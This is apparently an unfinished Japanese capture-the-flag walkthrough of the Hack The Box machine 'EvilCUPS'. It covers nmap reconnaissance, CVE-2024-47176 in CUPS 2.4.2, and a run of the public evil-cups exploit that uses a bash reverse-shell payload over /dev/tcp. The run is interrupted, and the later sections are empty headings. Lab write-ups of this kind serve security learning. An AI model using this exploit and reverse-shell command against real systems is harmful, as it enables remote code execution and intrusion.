

# EvilCUPS

Linux · Medium 

## 初期偵察
### nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.11.40
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 11:42 JST
Nmap scan report for 10.10.11.40
Host is up (0.52s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 36:49:95:03:8d:b4:4c:6e:a9:25:92:af:3c:9e:06:66 (ECDSA)
|_  256 9f:a4:a9:39:11:20:e0:96:ee:c4:9a:69:28:95:0c:60 (ED25519)
631/tcp open  ipp     CUPS 2.4
|_http-title: Home - CUPS 2.4.2
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 169.32 seconds
```




CUPS 2.4.2について調べるとCVEを発見

### CVE-2024-47176

- Linux向けに提供されているオープンソースの印刷システム「CUPS（Common Unix Printing System）」のコンポーネントに複数の脆弱性

- CUPS は Linux ディストリビューションのプリンターを管理、検出、共有するためのツールを提供します。この一連の脆弱性を連鎖させることで、攻撃者によるリモートコード実行が可能になるため、機密データの窃盗や重要な実稼働システムの障害につながる可能性がある

https://www.security-next.com/162302


```
┌──(venv)─(kali㉿kali)-[~/htb/Retired_Machines/EvilCUPS]
└─$ git clone https://github.com/IppSec/evil-cups.git
Cloning into 'evil-cups'...
remote: Enumerating objects: 8, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 8 (delta 1), reused 8 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), done.
Resolving deltas: 100% (1/1), done.
                                                                                                                         
┌──(venv)─(kali㉿kali)-[~/htb/Retired_Machines/EvilCUPS]
└─$ ls
cups_scanner.py  evil-cups  evilcups.py  logs  venv
                                                                                                                         
┌──(venv)─(kali㉿kali)-[~/htb/Retired_Machines/EvilCUPS]
└─$ cd evil-cups 
                                                                                                                         
┌──(venv)─(kali㉿kali)-[~/htb/Retired_Machines/EvilCUPS/evil-cups]
└─$ ls
evilcups.py  requirements.txt
```


```
┌──(venv)─(kali㉿kali)-[~/htb/Retired_Machines/EvilCUPS/evil-cups]
└─$ python3 evilcups.py 10.10.11.40 10.xx.xx.xx 'bash -c "bash -i >& /dev/tcp/10.xx.xx.xx/4444 0>&1"'
IPP Server Listening on ('0.0.0.0', 12346)
Sending udp packet to 10.10.14.9:631...
Please wait this normally takes 30 seconds...
1354 elapsed^CTraceback (most recent call last):
  File "/home/kali/htb/Retired_Machines/EvilCUPS/evil-cups/evilcups.py", line 235, in <module>
    time.sleep(1)
KeyboardInterrupt
^CException ignored in: <module 'threading' from '/usr/lib/python3.12/threading.py'>
Traceback (most recent call last):
  File "/usr/lib/python3.12/threading.py", line 1624, in _shutdown
    lock.acquire()
KeyboardInterrupt:
```

## 初期侵入


### user.txt


## 権限昇格